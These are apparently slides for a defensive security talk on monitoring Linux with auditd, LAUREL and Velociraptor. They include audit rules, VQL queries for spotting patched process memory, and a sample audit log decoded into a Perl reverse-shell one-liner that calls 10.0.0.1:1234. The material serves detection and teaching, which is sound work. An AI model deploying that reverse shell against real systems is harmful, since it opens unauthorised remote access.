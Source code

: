 #+TITLE: Detection and Response for Linux without EDR
#+AUTHOR: Hilko Bengen
#+DATE: 2024-12-07
# bengen@hilluzination.de / https://github.com/hillu / @hillu@infosec.exchange

# -> intro

* Some Conventional Wisdom

Opinions to pick from
- (Some) Linux enthusiasts:
  "Linux is inherently secure enough. Leave me alone!"
- (Some) Enterprise security enthusiasts:
  "Linux lacks observability. Can't work like this!"
- Red team:
  "LOL, it's always so easy to persist on Unix systems."
- Blue team:
  "Oh my, on Windows, there's at least Sysmon."
  
* System Logs

# -> detection basics

- e.g. =/var/log/messages=, =/var/log/auth.log=
- Easy to collect
- The usual suspects: =sudo=, =ssh=, =cron=, etc.
- Need context to detect anything
- Not sufficient for catching attackers

* Beyond Syslog

- Want to detect unusual, suspicious behavior, e.g.:
  - Webshells
  - Reverse shells
  - Reconnaissance
  - "fileless" implants injected into processes
  - BPF seems interesing for attackers
- Need better telemetry!
  - Program executions
  - File watches
  - Special case syscalls

* Linux Audit Subsystem

# -> better telemetry

- Good for logging:
  - Program execution
  - File operations
  - Syscalls
  - SELinux, AppArmor events

- Stable, boring technology!
  - In kernel since mid-2000s
  - Basic format is well documented
  - Semantics are well understood

# * Linux Audit Subsystem

# #+begin_src text
#           .-------+.              
#           |       '-+                  
#           | Ruleset +                    
#   .-------+--.      |     .--------.     
#   |          +------'     |        |       +--------+
#   | auditctl |            | auditd +--+--->| plugin |
#   |          |            |        |   \   +--+-----+--+
#   '--------+-'            +------+-'    '---->| plugin |
#             \       raw   ^       \           +--------+
#    configure \     events/         v   
#               v         /           +-------+-.
#         +-.----+-------+----.-+     |log files|
#         | | Audit subsystem | |     '---------'
#         | '-----------------' |
#         | Linux Kernel        |
#         +---------------------'
# #+end_src

* Linux Audit Subsystem

# Image

#+ATTR_HTML: :height 600px :align center
[[file:audit.svg]]

* Linux Audit Subsystem, LOL

# -> linux audit problem

# type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"

#+begin_src sh
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
#+end_src

# type=CWD msg=audit(1626611363.720:348501): cwd="/root"
# type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174

- Parsing is hard for SIEM software
- Few filtering options

* Linux Audit Subsystem, LOL

So, what is this =EXECVE.a2=?
#+begin_src perl
use Socket; $i="10.0.0.1"; $p=1234;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($p, inet_aton($i)))) {
open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
exec("/bin/sh -i"); };
#+end_src

* Our solution

#+ATTR_HTML: :height 150px :align center
[[file:laurel.svg]]

"Linux Audit – Usable, Robust, Easy Logging"
- /auditd/ plugin: Parse audit log, write JSON
- Enrichment, process tracking and labelling
- Filtering capabilities
- https://github.com/threathunters-io/laurel, GPLv3

# -> detect summary

* Our solution

# Image

#+ATTR_HTML: :height 600px :align center
[[file:audit-laurel.svg]]

* EDR? On Linux? Interesting.

- "Our work so far has been basic, common sense"
- "Let's see if we can do better with an off-the-shelf product"

* Made for Windows.

# -> Made for Windows

- "=CreateProcess=. What is =fork=, =exec=?"
- "=root= = 'S-1-5-18'. Everybody knows that"
- "What's a numeric user ID?"
- "What are groups?"
- "Filenames are all valid Unicode. Right?"

* Response and Hunting

# -> Response

- Get context for alerts
- simple tasks
  - inspect files
  - =ps=
  - =netstat=
- Use YARA rules to hunt for specific files
- Find process anomalies
- Running custom tools would be great!

* Velociraptor

#+ATTR_HTML: :height 150px :align center
[[file:velo.svg]]
- "digital forensic and incident response tool"
- /Velociraptor Query Language/
- Some assembly required
- Excellent support
- https://docs.velociraptor.app, AGPLv3

* Support infrastructure

- Diagnosis scripts to check for misconfiguration
  - Simplify support cases
- RPM+DEB packages
  - Reduce mistakes made in installation

* Example: Audit config manipulation

Watch for file write operations and label them
#+begin_src sh
  -w /etc/group           -p wa -k wr_etc_main
  -w /etc/passwd          -p wa -k wr_etc_main
  -w /etc/shadow          -p wa -k wr_etc_main
  -w /etc/pam.conf        -p wa -k wr_etc_main
  -w /etc/pam.d/          -p wa -k wr_etc_main
  -w /etc/ssh/sshd_config -p wa -k wr_etc_main

  -w /etc/sudoers         -p wa -k wr_sudo
  -w /etc/sudoers.d       -p wa -k wr_sudo
#+end_src
Also for:

=cron/at= – =systemd= – =ld.so= – SELinux/Apparmor – Kernel modules – =auditd/laurel= – etc.

* Example: Audit program execution

Watch for program execution. LAUREL can use key as label that is inheried by child processes.
#+begin_src sh
  -w /usr/sbin/sshd -p x -k sshd

  -w /usr/bin/rpm     -p x -k pkg_mgmt
  -w /usr/bin/dnf     -p x -k pkg_mgmt
  -w /usr/bin/dpkg    -p x -k pkg_mgmt
  -w /usr/bin/apt-get -p x -k pkg_mgmt
  # […]

  -w /usr/bin/containerd -p x -k container
  -w /usr/bin/podman     -p x -k container
  -w /usr/bin/runc       -p x -k container
  # […]
#+end_src
Also for:

web servers – =cron= / =at= – etc.

* Example: Audit for specific syscalls

Idea: Allowlist specific processes for ptrace, syscall activity

=ptrace(2)= – but not =PEEK=, =POKE=, =CONT=
#+begin_src sh
  -a never,exit -F arch=b32 -S ptrace -F a0>=1 -F a0<=7
  -a never,exit -F arch=b64 -S ptrace -F a0>=1 -F a0<=7
  -a always,exit -F arch=b32 -S ptrace
  -a always,exit -F arch=b64 -S ptrace
#+end_src
=bpf(2)= – but not =BPF_MAP_LOOKUP_ELEM= etc.
#+begin_src sh
  -a never,exit -F arch=b32 -S bpf -F a0>=1 -F a0<=4
  -a never,exit -F arch=b64 -S bpf -F a0>=1 -F a0<=4
  -a never,exit -F arch=b32 -S bpf -F a0>=0xb -F a0<=0xf
  -a never,exit -F arch=b64 -S bpf -F a0>=0xb -F a0<=0xf
  -a never,exit -F arch=b32 -S bpf -F a0=0x13
  -a never,exit -F arch=b64 -S bpf -F a0=0x13
  -a always,exit -F arch=b32 -S bpf -F success=1
  -a always,exit -F arch=b64 -S bpf -F success=1
#+end_src

* Example: Audit Kernel module manipulation

#+begin_src sh
  -a always,exit -F arch=b32 -S init_module,finit_module,delete_module \
     -k module
  -a always,exit -F arch=b64 -S init_module,finit_module,delete_module \
     -k module
#+end_src
#+begin_src sh
  -w /etc/modprobe.conf -p wa -k wr_modules
  -w /etc/modprobe.d/   -p wa -k wr_modules
  -w /lib/modules/      -p wa -k wr_modules
#+end_src
* Example: Audit raw disk access
#+begin_src sh
  -a always,exit -F arch=b32 -S open,openat,openat2 \
     -F filetype=block -F perm=wa -F success=1 -k raw_write
  -a always,exit -F arch=b64 -S open,openat,openat2 \
     -F filetype=block -F perm=wa -F success=1 -k raw_write
  -a always,exit -F arch=b32 -S open,openat,openat2 \
     -F filetype=block -F perm=r -F success=1 -k raw_read
  -a always,exit -F arch=b64 -S open,openat,openat2 \
     -F filetype=block -F perm=r -F success=1 -k raw_read
#+end_src

* Example: Find patched processes using VQL

Privileged attackers can write to =/proc/$PID/mem=, bypassing individual
page permissions. But this leaves some traces.

- Inspect executable mappings from =/proc/$PID/maps=
- Find modified (present but not file-backed) pages using =/proc/$PID/pagemap=

* Example: Find patched processes using VQL

Parse =/proc/$PID/maps=:
#+begin_src 
55c17294f000-55c172954000 r--p 00000000 fd:01 395639 /usr/sbin/auditd
55c172954000-55c17296a000 r-xp 00005000 fd:01 395639 /usr/sbin/auditd
55c17296a000-55c172973000 r--p 0001b000 fd:01 395639 /usr/sbin/auditd
...
#+end_src
#+begin_src sql
  LET maps_regex <= 
      '''^(?P<Start>[0-9a-f]+)-(?P<End>[0-9a-f]+)''' +
      '''\s+(?P<Perm>[a-z-]{4})''' +
      '''\s+(?P<Offset>[0-9a-f]+)''' +
      '''\s+(?P<DevMajor>[0-9a-f])+:(?P<DevMinor>[0-9a-f]+)''' +
      '''\s+(?P<Inode>\d+)''' +
      '''\s+(?P<Filename>.*?)''' +
      '''(?P<Deleted> \(deleted\))?$'''
#+end_src
* Example: Find patched processes using VQL
Parse =/proc/$PID/maps:=
#+begin_src sql
  LET get_maps(pid) =
      SELECT
          atoi(string="0x" + Record.Start) AS Start,
          atoi(string="0x" + Record.End) AS End,
          Record.Perm AS Perm,
          Record.Filename AS Filename
      FROM foreach(
          row = { SELECT * FROM parse_lines(
                      filename=format(format="/proc/%d/maps", args=pid) ) },
          query = { SELECT parse_string_with_regex(
                      regex=maps_regex, string=Line) AS Record
                    FROM scope() }
      )
#+end_src

* Example: Find patched processes using VQL
Parse =/proc/$PID/pagemap=:
#+begin_src sql
  LET PAGESIZE <= 4096 -- may dffer on !x86
  LET pagemap_template(start_address, end_address) =
      format(
          format='''[
          ["pagemap", 0, [
                 ["PFN", %[1]d, Array, { 
                     type: "uint64",
                     count: %[2]d,
                     max_count: %[2]d,
                 }],
             ]]]''',
          args=[ int( int=8 * start_address / PAGESIZE ),
                 int( int=(end_address-start_address) / PAGESIZE ) ] )

#+end_src
* Example: Find patched processes using VQL
Get PFNs for executable mappings
#+begin_src sql
  LET get_pfns(pid) =
      SELECT BaseAddress, PageMap
      FROM foreach(
          row = {  SELECT Start, End FROM get_maps(pid=pid)
              WHERE Perm =~ "x" AND Filename =~ "^/"
              AND NOT Filename =~ "^/memfd:" },
          query = { SELECT Start AS BaseAddress,
              parse_binary( filename=format(format="/proc/%d/pagemap",
                  args=pid),
                  profile=pagemap_template( start_address=Start,
                                            end_address=End ),
                  struct="pagemap" ).PFN AS PageMap
              FROM scope() }
      )
#+end_src
* Example: Find patched processes using VQL
#+begin_src sql
  LET modified_executable_pages(pid) =
      SELECT Page AS TaintedPage
      FROM foreach(
        row = get_pfns(pid=pid),
        uery={
          SELECT format(format="%012x", args=[BaseAddress + PAGESIZE * _key])
                 AS Page,
                 format(format="%064b", args=[_value._value])
                 AS mapping
          FROM items(item={SELECT * FROM foreach(row=PageMap)}) })
      WHERE mapping =~ "^1.0"
      -- bit 63 (present) = 1
      -- bit 61 (file-backed) = 0
#+end_src
* Example: Find patched processes using VQL
Tying it all together
#+begin_src sql
  LET process_exe_regex = "^/"
  SELECT *
  FROM foreach(
      row={SELECT Pid, Exe FROM pslist() WHERE Exe =~ process_exe_regex},
      query={
          SELECT
              Exe,
              array(a=modified_executable_pages( pid=Pid ).TaintedPage ) 
          AS TaintedPages
          FROM scope()
          WHERE len(list=TaintedPages) > 0
      })
#+end_src

# #+begin_src text
| Pid     | Exe              | TaintedPages     |
|---------+------------------+------------------|
| 1238941 | /usr/sbin/auditd | [ 55c172969000 ] |
|---------+------------------+------------------|
# #+end_src

* Conclusion

- The state of securitng Linux systems enterprise environment *can* be improved
- Commercial Vendors seem to be surprisingly bad at this.
- You can get surprisingly far using built-in facilities and free/open-source software, and some common sense

# wrapping up

# the state of securing / defending Linux systems can certainly be improved
# not everything is lost

# I like to think that 

* Contact info

#+ATTR_HTML: :height 120px
[[file:avatar.jpg]]

Hilko Bengen <bengen@hilluzination.de>
| https://github.com/hillu | @hillu@infosec.exchange |

Slides are available online:
#+ATTR_HTML: :height 150px
[[file:talk-url.png]]
